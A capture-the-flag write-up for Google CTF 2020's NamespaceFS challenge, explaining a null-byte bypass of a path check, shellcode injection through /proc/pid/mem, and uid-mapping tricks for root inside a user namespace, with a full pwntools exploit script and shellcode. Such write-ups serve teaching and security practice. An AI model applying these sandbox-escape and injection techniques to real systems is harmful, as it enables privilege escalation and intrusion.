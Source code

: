 # Writeup for NamespaceFS (sandbox, 383 pts, 8 solves), Google CTF 2020, by LevitatingLion

> A remote filesystem with protobufs and namespace-based security. You can find the flag at /home/user/flag (read-only by root)

## Challenge Overview

For this challenge we are provided with the C++ source code for a binary running on the challenge server. The binary is started with uid 0 and does the following:

- Spawn a sandbox:
  - Fork off a child process with new user, pid, mount and net namespaces
  - In the child:
    - Mount new `tmpfs` over `/tmp`
    - `setresuid(1338, 1338, 1338)`
    - Execute an `init` binary, which does `while (1) sleep(1);`
  - In the parent:
    - Setup uid and gid mappings of the child's user namespace, map 0 to 0 and 1338 to 1338 unchanged
- Drop capabilities
- Listen for incoming protobuf requests, one of:
  - `read_file(path, length, offset)`
  - `write_file(path, data, offset)`
- When a request is received:
  - Verify that `"/tmp/" + path` does not contain `..`
  - Join the sandbox:
    - Fork, parent waits for child to exit
    - Enter the user namespace of the sandbox
    - `setfsuid(1338)`
    - Enter the mount and net namespaces of the sandbox
  - On read requests:
    - Use `std::ifstream` to read the file
  - On write requests:
    - Split path at `/`
    - Resolve each directory component, create it if it doesn't exist, don't follow links
    - Open the final component, create it if it doesn't exist, don't follow links
    - Write the data using `std::ostream`

To interact with the remote server, we have to send protobuf messages. The protobuf specification is included in `nsfs.proto`, so we can generate python bindings using `protoc --python_out=. nsfs.proto`.

## Bypass the Path Check

To verify that the path does not contain `..` the server uses `strstr`, which stops at a null-byte. But when splitting the path at `/`, `std::string` is used, which supports embedded null bytes. Because of this difference, we can bypass the initial path check by including a null byte in the first path component: to access files outside `/tmp/`, we can send the path `.\0/../path/to/file`.

This bypass only works when writing files, but that is enough for the remaining exploit.

## Execute Code Inside the Sandbox

With the ability to write to any files on the system, the next step is to gain code execution inside the `init` process of the sandbox. We can write to the `init` process' `/proc/$pid/mem` file and because the `init` binary is non-PIE, we can overwrite parts of the binary at a fixed address with shellcode.

Using this, we can execute arbitrary code inside of the sandbox. The flag file is visible from inside the sandbox, but only readable by root. Because we currently run as user 1338, we still have to escalate to root. Note that we do not have to actually escape the sandbox, being root inside of the sandbox will allow us to read the flag.

## Become Root

From inside the `init` process, we fork off a child with a new user namespace. The child will have all capabilities in its new user namespace, but since uid 0 is not mapped inside this namespace, we cannot use these capabilities to become root.

Fortunately, we can use the file write to set up arbitrary uid mappings in the child's user namespace. This is possible for two reasons: 1. the server process gained all capabilities inside the sandbox' user namespace when joining it and the subsequent `setfsuid` only dropped a few unrelated capabilities, and 2. the new child's user namespace is a child of the sandbox' user namespace.

After we map uid 0 to 0 and 1338 to 1338, the child process we created initially still has all its capabilities, and can `setuid(0)` to become root. Now all that remains is reading the flag file: `CTF{every_year_these_silly_namespaces}`

## Exploit Code

Finally, the exploit script:

```python
from pwn import *
from nsfs_pb2 import Operation, READ, WRITE

init = ELF("init")

if args.REMOTE:
    p = remote("namespacefs.2020.ctfcompetition.com", 1337)
else:
    p = remote("localhost", 1337)


def do_read(path, length=0x10000, offset=0):
    op = Operation()
    op.action = READ
    op.path = path
    op.length = length
    op.offset = offset

    do_send(op)


def do_write(path, data, offset=0):
    op = Operation()
    op.action = WRITE
    op.path = path
    op.data = data
    op.offset = offset

    do_send(op)


def do_send(op):
    msg = op.SerializeToString()
    if len(msg) > 40960:
        error("Message too large")
    p.send(p32(len(msg)))
    p.send(msg)


# write shellcode to memory of init process inside the sandbox
do_write(".\0/../proc/2/mem", b"\x90" * 128 + read("sc_init"), init.symbols.main)

# wait for the shellcode to spawn a child
sleep(2)

# setup uid mappings in the child's user namespace
do_write(".\0/../proc/4/uid_map", b"0 0 1\n1338 1338 1\n")
do_write(".\0/../proc/4/gid_map", b"0 0 1\n")

p.interactive()
```

And the C-equivalent to the shellcode executed inside the sandbox:

```c
// fork process with new user namespace
if (sys_clone(CLONE_NEWUSER | SIGCHLD, NULL, NULL, NULL, 0)) {
    // parent

} else {
    // child

    // wait for exploit to set up uid mappings for our user namespace
    sleep(5);

    // become root
    sys_setresuid(0, 0, 0);

    // read the flag
    int fd = sys_open("/home/user/flag", O_RDONLY, 0);
    char buf[0x100];
    sys_read(fd, buf, sizeof buf);
    sys_write(1, buf, sizeof buf);
}

// endless loop
for (;;)
    sleep(1);
```
